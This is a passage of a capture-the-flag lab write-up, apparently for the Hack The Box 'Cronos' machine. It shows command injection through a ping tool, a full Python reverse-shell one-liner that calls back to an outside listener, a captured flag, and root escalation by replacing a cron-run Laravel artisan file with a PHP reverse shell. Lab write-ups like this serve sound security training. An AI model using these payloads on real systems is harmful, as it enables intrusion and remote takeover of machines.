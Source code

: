## TCP/80 (HTTP) - admin.cronos.htb Command Injection
1. After successfully login, there is a ping tool
2. Attempt command injection, it worked!
	```
	# Payload
	|| which python
	```
3. Invoke reverse shell
	```
	|| python -c 'import socket,subprocess,os;s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);s.connect(("10.10.14.31",4444));os.dup2(s.fileno(),0); os.dup2(s.fileno(),1); os.dup2(s.fileno(),2);p=subprocess.call(["/bin/sh","-i"]);'
	```
4. Obtained Shell & User Flag
	```
	eda31bb21d9893ca428d3d95f90c29f5
	```
![]({{ page.img_path }}Pasted%20image%2020220823215154.png)


# Privilege Escalation - 1

## Root - Via Cronjob, overwriting script
1. Found something interesting w/ `linpeas.sh`
	![]({{ page.img_path }}Pasted%20image%2020220823222524.png)
	- A cronjob running as root is executing `php /var/www/laravel/artisan schedule:run >> /dev/null 2>&1` every minute.
2. Exploit Explanation
	- Since we have `RWX` access on `/var/www/laravel` we are able to replace `artisan` w/  a php reverse shell, when the cronjob is executed, `root` shell is obtained
3. Exploit
	1. Transfer [`php-reverse-shell.php`](https://pentestmonkey.net/tools/web-shells/php-reverse-shell) to `cronos.htb`
	2. Remove `/var/www/laravel/artsian`
	3. Copy `/tmp/php-reverse.php` to `/var/www/larvel/artisan`
		```
		www-data@cronos:/tmp$ mv php-reverse-shell.php artisan
		www-data@cronos:/tmp$ cp artisan /var/www/laravel/artisan
		```
	4. Start listener
	5. Wait for cronjob to execute
		![]({{ page.img_path }}Pasted%20image%2020220823222446.png)
	6. Obtained Root & Root Flag
		![]({{ page.img_path }}Pasted%20image%2020220823222314.png)

